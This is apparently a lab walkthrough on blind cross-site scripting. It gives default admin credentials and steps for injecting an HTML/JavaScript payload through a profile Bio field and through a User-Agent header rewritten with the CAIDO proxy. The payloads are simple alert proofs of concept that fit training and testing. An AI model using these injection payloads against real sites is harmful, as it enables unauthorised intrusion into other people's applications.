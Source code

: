 # Blind XSS

**Blind XSS** is a attack where the malicious payload is executed in a different context or by a different user (often an admin), making it invisible to the attacker during injection and requiring out-of-band detection.

---

### Login Credentials

- **Username:** `admin`  
- **Password:** `admin`

### Blind XSS via User Profile

1. Register a new user account and log in.
2. Navigate to the user profile section.
3. In the `Bio` input field, enter the following **XSS payload**:

    ```html
    </textarea><img src=x onclick=alert(1)>test123
    ```

4. Log in as the administrator.
5. View the user profile — if vulnerable, the payload will execute when the profile is viewed.


### Blind XSS via HTTP Headers (Using CAIDO)

1. Open **CAIDO** proxy tool.
2. Go to `Match & Replace`.
3. Create a new rule with the following settings:
   - **Name:** `bxss`
   - **Strategy:** `Request Header`
   - **Search term:** `Mozilla/5.0`
   - **Replace term:**

     ```html
     Mozilla/5.0 </textarea><img src=x onclick=alert('xss')>
     ```

4. Before sending a request, you might have something like:

    ```http
    GET /path/?query=value HTTP/1.1
    Host: example.com
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    ```

5. After applying the `Match & Replace` rule and sending the request:

    ```http
    GET /path/?query=value HTTP/1.1
    Host: example.com
    User-Agent: Mozilla/5.0 </textarea><img src=x onclick=alert('xss')> (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36
    ```

6. Monitor for any XSS triggers — such as alerts on the admin panel — which indicate Blind XSS via headers.

